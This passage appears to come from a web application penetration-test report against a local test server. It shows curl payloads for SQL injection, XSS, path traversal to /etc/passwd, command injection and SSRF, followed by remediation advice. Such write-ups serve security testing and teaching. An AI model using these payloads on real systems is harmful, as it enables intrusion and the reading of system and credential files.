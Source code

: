 ### SQL Injection Exploitation
```bash
# Manual exploitation
curl "http://localhost:5000/user?id=1' UNION SELECT 1,@@version,3,4--"

# Automated exploitation
python poc_exploiter.py http://localhost:5000
```

### XSS Exploitation
```bash
# Cookie stealing payload
curl "http://localhost:5000/search?q=<script>alert(document.cookie)</script>"
```

### LFI Exploitation
```bash
# System file access
curl "http://localhost:5000/include?file=../../../../etc/passwd"
```

### Command Injection
```bash
# Command execution
curl "http://localhost:5000/execute?cmd=id;whoami;ls -la"
```

### SSRF Exploitation
```bash
# Internal service access
curl "http://localhost:5000/fetch?url=http://localhost:80"
```

---

## Security Recommendations

### Immediate Actions:
1. **Input Validation**: Implement strict input validation
2. **Parameterized Queries**: Use prepared statements for SQL
3. **Output Encoding**: Encode all user output
4. **Access Controls**: Implement proper file access restrictions
5. **Command Whitelisting**: Use allowlists for command execution
6. **URL Validation**: Validate and restrict URL access

### Long-term Measures:
1. **Security Training**: Educate developers on secure coding
2. **Code Reviews**: Implement security-focused code reviews
3. **Regular Testing**: Conduct periodic security assessments
4. **WAF Deployment**: Consider Web Application Firewall
5. **Security Headers**: Implement security headers (CSP, X-Frame-Options, etc.)

---